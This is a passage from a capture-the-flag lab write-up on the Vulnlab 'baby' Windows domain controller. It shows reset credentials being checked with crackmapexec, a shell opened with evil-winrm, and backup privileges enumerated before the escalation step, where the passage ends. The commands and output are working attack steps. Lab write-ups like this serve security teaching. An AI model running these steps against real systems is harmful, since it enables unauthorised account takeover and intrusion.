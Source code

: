 ```bash
#smbpasswd -r 10.10.88.63 -U "Caroline.Robinson"
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
```

After changing the user, I tested the validity with crackmapexec.

```bash
└─# crackmapexec smb 10.10.111.217 -u Caroline.Robinson  -p 'Liebe123'    
SMB         10.10.111.217   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.111.217   445    BABYDC           [+] baby.vl\Caroline.Robinson:Liebe123
```

So then I tried to log in with those credentials above using the evil-winrm tool.

```bash
──(root㉿kali)-[~/Vulnlab/machines/baby]
└─# evil-winrm -i 10.10.111.217  -u Caroline.Robinson  -p 'Liebe123'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> 
```

## Privilege escalation

We started the enumeration by beginning with whoami /all.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
